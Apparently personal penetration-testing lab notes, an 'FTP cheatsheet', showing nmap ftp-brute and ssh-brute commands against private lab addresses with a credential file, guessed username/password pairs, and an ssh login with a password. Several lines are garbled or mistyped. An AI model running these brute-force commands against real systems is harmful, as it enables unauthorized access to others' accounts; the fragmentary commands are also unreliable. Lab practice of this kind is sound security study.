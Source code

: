 FTP cheatsheet---


-script=ftp

-script=ftp-brute

Raw Keyword


![[Pasted image 20230929152945.png]]


nmap --script=ftp-brute --script-args brute.credfile=asswords.txt 192.168.56.117

cisco/password123
ciso/admin
ciso/friday



ftp --script=ftp-brute ^c
vim credcombo.txt
gedit credcombo.txtnma

nmap --script=ssh-brute --script-args brute.credfile=credcombo.txt 192.168.1.18

ssh ciso@192.168.1.18
pw: root
![[Pasted image 20230929160248.png]]


![[Pasted image 20230929160632.png]]

_______________
